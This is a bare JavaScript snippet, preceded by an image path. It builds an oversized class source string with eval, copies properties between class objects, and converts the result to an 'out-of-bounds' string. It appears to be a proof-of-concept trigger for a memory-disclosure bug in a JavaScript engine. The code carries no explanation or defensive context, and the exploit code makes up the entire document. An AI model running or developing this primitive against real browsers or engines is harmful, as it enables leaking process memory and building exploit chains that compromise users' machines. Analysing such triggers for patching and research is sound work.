 
function getHiddenValue(){
    var obj = {};
    var oob = "/re/";

    oob = oob.replace("re","*".repeat(0x100000));
    var str =  'class x extends Array{'+oob+"}";
    var fun = eval(str);
    Object.assign(obj,fun);
    return obj;
}
function makeOobString(){
    var hiddenValue = getHiddenValue();
    var str =  'class x extends Array{}';
    var fun = eval(str);
    Object.assign(fun,hiddenValue);
    var oobString = fun.toString();
    return oobString;
}
var oobString = makeOobString();

